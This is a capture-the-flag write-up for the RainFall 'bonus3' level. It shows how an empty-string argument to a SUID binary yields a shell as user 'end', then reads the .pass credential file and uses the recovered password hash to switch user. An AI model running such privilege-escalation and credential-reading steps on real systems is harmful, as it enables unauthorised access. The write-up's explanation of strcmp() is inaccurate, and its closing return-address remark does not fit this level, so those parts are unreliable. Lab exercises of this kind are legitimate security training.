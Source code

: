 # Level bonus 3

## Vulnerability

```strcmp()``` with empty argument

## Context

We find a binary with owner ```end``` and SUID.
```
bonus3@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
```
When run with 1 argument, it prints a new line. Run with 0 or 2 =< arguments it does nothing.
```
bonus3@RainFall:~$ ./bonus3
bonus3@RainFall:~$ ./bonus3 Yes!

bonus3@RainFall:~$ ./bonus3 No no
bonus3@RainFall:~$ ./bonus3 No no no
bonus3@RainFall:~$
```

## Solution

In summary, if you give the password for user ```end``` as argument to ```bonus3```, it opens a shell (well actually it segfaults).

But we don't know the password yet so...

Investigating with gdb we find just ```main()```. ```main()``` opens ```/home/user/end/.pass``` and copies the password into a buffer twice. Then ```strcmp()``` compares the buffer and argv[1], opening a shell if you have provided the matching password. However ```strcmp()``` will only read and compare as many bytes as len(argv[1]), so if we provide an empty string ```strcmp()``` returns 0, claiming the password and empty string are the same (for as many bytes as read - 0).
```
bonus3@RainFall:~$ ./bonus3 ""
$ whoami
end
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
$ exit
bonus3@RainFall:~$ su end
Password: 3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
end@RainFall:~$ ls -l
-rwsr-s---+ 1 end users 26 Sep 23  2015 end
end@RainFall:~$ cat end
Congratulations graduate!
```
Maybe should have used ```strncmp()``` instead of ```strcmp()```.

Anways Congratulations graduate!

## Recreate Exploited Binary

As user ```end```, in ```/tmp```, create and compile ```bonus3_source.c```
```
end@RainFall:/tmp$ gcc bonus3_source.c -o bonus3_source
```

Edit permissions including suid, then move the binary to home directory.
```
end@RainFall:/tmp$ chmod u+s bonus3_source; chmod +wx ~; mv bonus3_source ~
```

Exit back to user ```bonus3```, then provide our exploit as argument to the source. Luckily, the env language var address is similar, so the return address doesn't need updating.
```
end@RainFall:/tmp$ exit
exit
bonus3@RainFall:~$ /home/user/end/bonus3_source ""
$ whoami
end
```
